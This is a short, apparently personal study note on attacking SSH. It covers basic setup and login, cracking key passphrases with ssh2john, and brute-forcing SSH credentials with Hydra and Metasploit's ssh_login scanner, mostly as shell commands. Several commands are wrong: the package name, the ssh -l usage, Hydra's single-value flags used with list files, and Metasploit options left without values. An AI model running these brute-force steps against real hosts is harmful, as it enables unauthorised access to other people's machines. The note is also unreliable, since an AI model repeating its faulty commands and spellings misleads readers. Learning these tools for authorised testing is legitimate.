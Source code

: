 # New Document### SSH Exploititng
 - ### **SSH** *stands for secure shell that allows to gain computer shell across the network*
 - It use port 22
 - If you went to ssh in your Linux first download `openssh-service`
 ```shell
sudo apt install openssh-service
 ```
 - To start ur ssh simply in your terminal type
 ``` shell
 sudo systemctl start ssh | service ssh start
 ```
## SSH Login
<hr>

 - *There are two ways of  autentication  method to got*
 > # Id RSA
 > It use private  and public key to connect the shell
 > To generate private and pulic key on your computer
 ``` shell
 sudo ssh-keygen
 ```
 >  *This command generate private and public key name in your .ssh directory named **id_rsa** and **Id_rsa.pub** respectivily*
> If u have private key you able to login on your remote machine
``` shell
ssh -l id_rsa@ip_addres(of remote computer)
```
> - When we generate private and public idrsa it ask password (optional)
> - when we going to login with ssh it maybe required
> - To Brute force password using IdRSA we use `ssh2john`
> - This script help you find the hashed password
>
># Using Username and password
> - This method is only using password and username of remote shell.
``` shell
ssh username@ip_addr
```
> - Example ``` ssh hanter@129.168.2.12 ```
> - and fill your password after hited on Enter

# Exploits
- There are alot of way to Exploit /  Bruteforce the ssh
- In this note we use Hydra and Metasploit to connect / Brute force username and password
## using hydra
- **Hydra is one of the most poular tool to bruteforce the online passwods**
- *hydar use usernaem and password to brute force the login*
- you need to preoare password and username list
- ### ✔ To be fast instead of making username list first cheek or identify the username or use `enum4linux` tool to enumrate the username of machine
``` shell
hydra -l username.txt -p password.txt ssh://127.0.0.1
```
- Hydra not only use for shh it also use ftp server to crack password
## using Metasploit
> - Using Metasploit frame work it we can bruteforce the  password
> - star the metasploit Frame work using command ```msfconsole```
> - And search auxiliary
``` shell
search auxiliary/scanner/ssh/ssh_login
```
> - And use it by using `use` command
### Requirements
- set rhost = remote machine ip
``` shell
set RHOST 127.0.0.1
```
- set username   = Username of the machine using wordlistt
``` shell
set user_file
```
- set password file
``` shell
set pass_file
```
- And Finally Run/Exploit
``` shell
exploit
```

